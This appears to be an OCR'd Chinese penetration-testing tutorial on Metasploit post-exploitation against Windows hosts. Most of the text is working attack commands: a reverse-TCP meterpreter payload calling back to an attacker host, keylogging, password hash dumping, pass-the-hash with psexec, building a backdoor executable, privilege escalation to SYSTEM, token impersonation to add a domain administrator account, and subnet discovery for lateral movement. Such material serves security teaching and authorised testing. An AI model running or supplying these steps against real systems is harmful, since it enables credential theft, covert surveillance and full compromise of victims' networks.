 ```
set payload windows/meterpreter/reverse_tcp 
set LHOST 192.168.1.111 
set LPORT 433 
set RHOST 192.168.1.130 
set PASSWORD password130 
exploit 
```
当获取到一个meterpreter shell 后可以执行更多的操作： 
获取屏幕截图：**screenshot** 
获取系统信息：**sysinfo** 
获取键盘记录： **keyscan_start**
```
meterpreter> ps #查看目标机器进程，假设发现explorer.exe 的进程号为1668: 
meterpreter> migrate 1668 #插入该进程 
meterpreter> run post/windows/capture/keylog_recorder #运行键盘记录模块，将击键记录保存到本地txt 
cat /root/.msf3/loot/*.txt #查看结果 
```
* 获取系统账号密码： 
```
meterpreter> use priv 
meterpreter> run post/windows/gather/hashdump 
```
* 当获取到密码的hash 之后无法破解出明文密码且无法直接使用hash 登陆，需要使用 
pass-the-hash 技术： 
```
msf> use windows/smb/psexec 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.1.111 
set LPORT 443 
set RHOST 192.168.1.130 
set SMBPass aad3b435b51404eeaad3b435b51404ee:b75989f65d1e04af7625ed712ac36c29 
exploit 
```
获取到系统权限后我们可以新建一个普通账号，然后使用此账号执行我们的后门： 
在目标机器上执行：**net uaer hacker pass /add** 
* 本地生成一个后门程序： 
```
msfpayload windows/meterpreter/reverse_tcp 
LHOST=192.168.1.111 LPORT=443 X >payload.exe 
```
将payload.exe 拷贝到目标机器然后使用新建立的账号执行本地执行端口监听，等待来自目标机器连接： 
msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp 
LHOST=192.168.1.111 LPORT=443 
use priv 
getsystem 
getuid 
至此取得SYSTEM 权限

#### 2、令牌模拟：当有域控账户登陆至服务器时可使用令牌模拟进行渗透取得域控权限，之后登陆其他机器时不需要登陆密码。 
```
meterpreter> ps # 查看目标机器进程，找出域控账户运行的进程ID，假如发现PID 为380 
meterpreter> steal_token 380 
有时ps 命令列出的进程中可能不存在域控账户的进程，此时使用incognito 模块查看可 
用token： 
meterpreter> use incognito 
meterpreter> list_tokens –u #列出可用token，假如找到域控token 
meterpreter> impersonate_token SNEAKS.IN\ihazdomainadmin 
meterpreter> add_user hacker password –h 192.168.1.50 #在域控主机上添加账户 
meterpreter> add_group_user “Domain Admins” hacker –h 192.168.1.50 #将账户添加至域管理员组
```
#### 3、内网渗透：当取得同网段内一台主机的权限后可以进一步渗透网内其他主机： 
例子： 
```
meterpreter> run get_local_subnets #查看网段/子网 
```